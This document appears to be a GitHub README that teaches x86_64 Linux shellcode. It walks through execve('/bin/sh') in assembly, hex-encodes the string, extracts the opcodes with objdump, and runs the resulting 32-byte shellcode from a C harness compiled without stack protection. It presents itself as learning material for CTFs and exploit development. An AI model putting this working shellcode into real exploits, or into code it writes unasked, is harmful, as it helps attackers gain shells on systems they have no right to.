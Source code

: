 # Execve Syscall Technique (Gaining Shell)

The `execve` syscall is a low-level technique used to spawn a shell by directly interacting with the Linux kernel. This method bypasses standard libraries and executes `/bin/sh` by invoking `execve("/bin/sh", NULL, NULL)`. It's a common approach in exploit development and shellcode crafting, often used in Capture The Flag (CTF) challenges, red teaming, and post-exploitation scenarios.

This repository contains minimal examples in C and Assembly to demonstrate how syscall-level shell spawning works and why understanding such techniques is important in modern cybersecurity practices.

---

## 🔍 How It Works

- The Linux system call number for `execve` is typically `59` on x86_64.
- The syscall takes three arguments:
  - `const char *filename` → path to binary (`/bin/sh`)
  - `char *const argv[]` → arguments (can be NULL for simple shells)
  - `char *const envp[]` → environment variables (can also be NULL)

By preparing the correct values in registers and invoking the syscall interrupt (`syscall` on x86_64, `int 0x80` on x86), a new shell process is spawned.

---

## 🛠️ Requirements

- Linux OS (preferably Debian/Ubuntu or Kali)
- GCC or NASM (for compiling C or Assembly)
```
sudo apt update
sudo apt install nasm
```

- Basic understanding of Linux system calls and syscall registers

---

c program:
```c
#include <stdio.h>
#include <string.h>

int main() {

	unsigned char shellcode[] = "\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\x48\x83\xc0\x3b\x0f\x05";
	printf("shellcode length: %zu\n", strlen((const char*)shellcode));
	int (*ret)() = (int(*)())shellcode;
	ret();
}
```

---

## 🧬 String Encoding Example (For Shellcode)

- The string "/bin/sh" is reversed and then encoded in hexadecimal for use in memory-safe or register-safe environments. 
- This is often seen in Assembly-based exploits, where certain characters (like null bytes) must be avoided.

```python
python2
Python 2.7.18 (v2.7.18:8d21aa21f2, Apr 19 2020, 20:48:48) 
[GCC 4.2.1 Compatible Apple LLVM 6.0 (clang-600.0.57)] on darwin
Type "help", "copyright", "credits" or "license" for more information.
>>> string = '//bin/sh'
>>> string
'//bin/sh'
>>> encode_string = string[::-1].encode('hex')
>>> encode_string
'68732f6e69622f2f'
>>> 
```


## What’s Happening?

- string[::-1]: Reverses the string to hs/nib//.
- This is because in Assembly (especially on x86), strings are often pushed to the stack in reverse order to appear correctly in memory.
- .encode('hex'): Converts the reversed string into its hexadecimal byte representation, which is easier to load into registers or memory during exploit development.
    
---

## 🧵 Shellcode Walkthrough (Assembly - execve) execve.asm

```asm
global _start
section .text

_start:
    xor rax, rax              ; Clear rax (rax = 0)
    push rax                  ; Push NULL (null terminator for string)
    mov rdx, rsp              ; Set rdx (envp) = NULL

    mov rbx, 0x68732f6e69622f2f  ; Load "//bin/sh" in reverse (little-endian)
    push rbx                  ; Push string onto the stack

    mov rdi, rsp              ; Set rdi = pointer to "/bin/sh"
    push rax                  ; Push NULL (argv terminator)
    push rdi                  ; Push pointer to "/bin/sh" into argv
    mov rsi, rsp              ; Set rsi = argv (["/bin/sh", NULL])

    add rax, 59               ; Syscall number for execve (59)
    syscall                   ; Trigger syscall: execve("/bin/sh", argv, envp)

```

---

| Instruction                   | Description                                                       |
| ----------------------------- | ----------------------------------------------------------------- |
| `xor rax, rax`                | Clears the `rax` register. Used to push NULL and prepare syscall. |
| `push rax`                    | Pushes a NULL terminator onto the stack (`\x00`).                 |
| `mov rdx, rsp`                | Sets `rdx` to point to NULL → the `envp` argument of `execve`.    |
| `mov rbx, 0x68732f6e69622f2f` | Loads the reversed hex for `//bin/sh` into `rbx`.                 |
| `push rbx`                    | Places the `//bin/sh` string on the stack.                        |
| `mov rdi, rsp`                | `rdi` now points to the `/bin/sh` string.                         |
| `push rax`                    | NULL terminator for `argv`.                                       |
| `push rdi`                    | Push pointer to `/bin/sh` into the stack to build `argv`.         |
| `mov rsi, rsp`                | `rsi` now points to `argv` → `["/bin/sh", NULL]`.                 |
| `add rax, 59`                 | Sets `rax = 59`, which is the syscall number for `execve`.        |
| `syscall`                     | Executes the syscall → spawns a shell.                            |


---

## 💡 Why Use //bin/sh Instead of /bin/sh?

Using //bin/sh instead of /bin/sh has no effect on the functionality in Unix-like systems, but it allows the string to be aligned perfectly into 8 bytes and avoids null bytes (\x00). This is a common trick in shellcode crafting to keep the payload compact and safe for injection.

---


## Compiling Assembly

```bash
lynk@Linux ~/a/execve-syscall> nasm -f elf64 execve.asm -o execve.o
lynk@Linux ~/a/execve-syscall> ld execve.o -o execve
lynk@Linux ~/a/execve-syscall> ./execve 
$ 

```
---


## now we will convert this into shell code:

```bash
lynk@Linux ~/a/execve-syscall> ls
a.out*  bash*  bash-shell.c  execve*  execve.asm  execve.o  r.md  sysinfo.c
lynk@Linux ~/a/execve-syscall> objdump -M intel -D execve | grep '[0-9a-f]:' | grep -v 'file' | cut -f2 -d: | cut -f1-7 -d' ' | tr -s ' ' | tr '\t' ' ' | sed 's/ $//g' | sed 's/ /\\\x/g' | paste -d '' -s
\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\x48\x83\xc0\x3b\x0f\x05
lynk@Linux ~/a/execve-syscall> 

```

```\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\x48\x83\xc0\x3b\x0f\x05```

```objdump -M intel -D execve | grep '[0-9a-f]:' | grep -v 'file' | cut -f2 -d: | cut -f1-7 -d' ' | tr -s ' ' | tr '\t' ' ' | sed 's/ $//g' | sed 's/ /\\\x/g' | paste -d '' -s```


---

## 🧨 Shellcode Execution in C
The following C program demonstrates how to execute raw shellcode that invokes the execve("/bin/sh", NULL, NULL) syscall. The shellcode is written in x86_64 machine code and stored as a string of hex bytes.

```c
#include <stdio.h>
#include <string.h>

int main() {

	unsigned char shellcode[] = "\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\x48\x83\xc0\x3b\x0f\x05";
	printf("shellcode length: %zu\n", strlen((const char*)shellcode));
	int (*ret)() = (int(*)())shellcode;
	ret();
}


```
---

## 🔍 How It Works:

- The shellcode constructs the "/bin/sh" string on the stack.

- It sets up the required arguments for the execve syscall (rax = 59, rdi = /bin/sh, rsi = NULL, rdx = NULL).

- The syscall instruction then executes /bin/sh.

---


## Now we will compile and run it........

```bash
lynk@Linux ~/a/execve-syscall> ls
bash*  bash-shell.c  execve*  execve.asm  execve.o  execve-shell.c  r.md  sysinfo.c
lynk@Linux ~/a/execve-syscall> gcc -fno-stack-protector -z execstack execve-shell.c
lynk@Linux ~/a/execve-syscall> ls
a.out*  bash*  bash-shell.c  execve*  execve.asm  execve.o  execve-shell.c  r.md  sysinfo.c
lynk@Linux ~/a/execve-syscall> ./a.out 
shellcode length: 32
$ whoami
lynk
$ 

```
## Bang it worked............Some how............................;)

